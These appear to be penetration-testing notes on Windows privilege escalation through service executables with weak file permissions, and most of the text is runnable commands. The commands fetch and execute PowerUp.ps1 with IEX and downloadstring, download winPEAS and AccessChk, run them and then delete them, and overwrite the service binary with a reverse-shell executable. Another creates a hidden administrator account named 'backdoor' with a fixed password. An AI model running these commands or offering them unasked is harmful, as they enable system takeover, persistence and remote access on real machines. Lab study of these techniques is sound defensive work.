





manual
Github:
https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps11.
Check for service misconfigurations:
◇
PowerUp.ps1 with method
Get-ModifiableServiceFile Enumerates all services by querying the WMI win32_service class. For each
service, it takes the pathname (aka binPath) and passes it to Get-ModifiablePath to determine if the current user
has rights to modify the service binary itself or any associated arguments.
If the associated binary (or any
configuration files) can be overwritten, privileges may be able to be escalated.
PS> IEX(New-Object Net.WebClient).downloadstring('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1');Get-ModifiableServiceFile
 ◇ WinPeas:
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/winPEAS/winPEASexe/binaries/Release/winPEASany.exe
PS> (new-object System.Net.WebClient).DownloadFile("https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/winPEAS/winPEASexe/binaries/Release/winPEASany.exe", "$env:userprofile\desktop\winPEASany.exe");Invoke-Expression "$env:userprofile\desktop\winPEASany.exe quiet servicesinfo";Remove-Item -Path "$env:userprofile\desktop\winPEASany.exe";
2. Confirm that we
can modify the file
◇ AccessChk:
PS> (new-object System.Net.WebClient).DownloadFile("https://web.archive.org/web/20071007120748if_/http://download.sysinternals.com/Files/Accesschk.zip", "$env:userprofile\desktop\Accesschk.zip");$ZippedFilePath = "$env:userprofile\desktop\Accesschk.zip";$DestinationFolder = "$env:userprofile\desktop\";[void] (New-Item -Path $DestinationFolder -ItemType Directory -Force);$Shell = new-object -com Shell.Application;$Shell.Namespace($DestinationFolder).copyhere($Shell.NameSpace($ZippedFilePath).Items(),4);Invoke-Expression "$env:userprofile\desktop\accesschk.exe /accepteula -quvw 'C:\Program Files\File Permissions Service\filepermservice.exe'";Remove-Item -Path "$env:userprofile\desktop\Accesschk.exe";Remove-Item -Path "$env:userprofile\desktop\Eula.txt";Remove-Item -Path "$env:userprofile\desktop\Accesschk.zip";
3. Confirm that we
can START/STOP the service
◇ AccessChk:
PS> (new-object System.Net.WebClient).DownloadFile("https://web.archive.org/web/20071007120748if_/http://download.sysinternals.com/Files/Accesschk.zip", "$env:userprofile\desktop\Accesschk.zip");$ZippedFilePath = "$env:userprofile\desktop\Accesschk.zip";$DestinationFolder = "$env:userprofile\desktop\";[void] (New-Item -Path $DestinationFolder -ItemType Directory -Force);$Shell = new-object -com Shell.Application;$Shell.Namespace($DestinationFolder).copyhere($Shell.NameSpace($ZippedFilePath).Items(),4);Invoke-Expression "$env:userprofile\desktop\accesschk.exe /accepteula -uvqc filepermsvc";Remove-Item -Path "$env:userprofile\desktop\Accesschk.exe";Remove-Item -Path "$env:userprofile\desktop\Eula.txt";Remove-Item -Path "$env:userprofile\desktop\Accesschk.zip";
4. Create a backup of
the original service executable:
C:\> copy "C:\Program Files\File Permissions Service\filepermservice.exe" C:\Temp
5. Now we can overwrite the service executable, we have different possibilities:
◇ Copy the
reverse shell executable to overwrite the service executable:
C:\> copy /Y C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe"
◇ Create a new Administrator account
PS> IEX(New-Object Net.WebClient).downloadstring('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1');Install-ServiceBinary -Name 'filepermsvc' -Command “net user backdoor Password123! /add && timeout /t 5 && net localgroup Administrators backdoor /add”
6. Start a listener on Kali, and then start the service to trigger the exploit:
1) Listener
on kali
2) Start the service
C:\> net start filepermsvc

Bibliography:
•
https://pentestlab.blog/2017/03/30/weak-service-permissions/